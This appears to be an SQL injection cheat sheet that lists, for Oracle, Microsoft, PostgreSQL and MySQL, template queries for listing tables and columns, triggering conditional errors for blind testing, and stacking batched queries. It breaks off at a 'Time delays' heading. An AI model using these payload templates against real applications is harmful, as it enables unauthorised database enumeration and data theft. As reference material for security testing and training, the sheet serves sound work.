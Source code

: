 # Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

| Language | Syntax |
|----------|--------|
|**Oracle**      |SELECT * FROM all_tables|
|            |SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'|
|**Microsoft**   |SELECT * FROM information_schema.tables|
|            |SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|
|**PostgreSQL**  |SELECT * FROM information_schema.tables|
|            |SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|
|**MySQL**       |SELECT * FROM information_schema.tables|
|           |SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'|

# Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

| Language | Syntax |
|----------|--------|
|**Oracle**      |SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual|
|**Microsoft**   |SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END|
|**PostgreSQL**  |SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END|
|**MySQL**       |SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')|

# Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Language | Syntax |
|----------|--------|
|**Oracle**	|**Does not support batched queries.**|
|**Microsoft**	|QUERY-1-HERE; QUERY-2-HERE|
|**PostgreSQL**	|QUERY-1-HERE; QUERY-2-HERE|
|**MySQL**	|**Does not support batched queries.**|

# Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

